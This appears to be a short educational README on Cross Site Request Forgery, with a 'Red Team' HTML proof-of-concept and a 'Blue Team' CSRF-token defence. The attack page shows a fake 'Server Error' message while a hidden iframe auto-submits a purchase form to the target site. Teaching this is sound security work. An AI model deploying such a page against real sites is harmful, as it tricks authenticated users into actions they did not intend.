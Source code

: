 # Cross Site Request Forgery (CSRF) POST

A CSRF attack is when someone makes a request as a user on a different site without that user knowingly prompting the request. This works if the user is already authenticated with the target site via cookies, because browsers will automatically attach a site's cookies to any requests to that site.

[No need for CSRF protection with APIs that don't use cookies](https://security.stackexchange.com/questions/166724/should-i-use-csrf-protection-on-rest-api-endpoints#comment338757_166798)

## Red Team

On your fake application create an `iframe` with a POST action to the target website. Trick a user into visiting this page, and as long as they are already authenticated with the real site (and not using CSRF tokens) the POST request will be successfully sent.

```html
<!-- fake.example.com -->
<html>
  <body>
    <p>Server Error. Please try again later</p>

    <!--
      The iframe is useful for preventing a redirect on submit(), since
      the domain to submit to is different than the current domain.
    -->
    <iframe style="display: none;" name="csrf-frame"></iframe>
    <form id="csrf-form" action="https://real.example.com/shop" method="POST" target="csrf-frame">
      <input type="hidden" name="purchased_item" value="something_nice">
    </form>
    <script>document.getElementById('csrf-form').submit()</script>
  </body>
</html>
```

## Blue Team

To protect against CSRF attacks utilize CSRF tokens to validate that the request actually came from your own site.

```html
<form action="/shop" method="post">
  <input type="hidden" name="csrf-token" value="<%= dynamically_generated_csrf_token %>">
  <input type="hidden" name="purchased_item" value="something_nice">
  <button id="purchase">Buy</button>
</form>
```
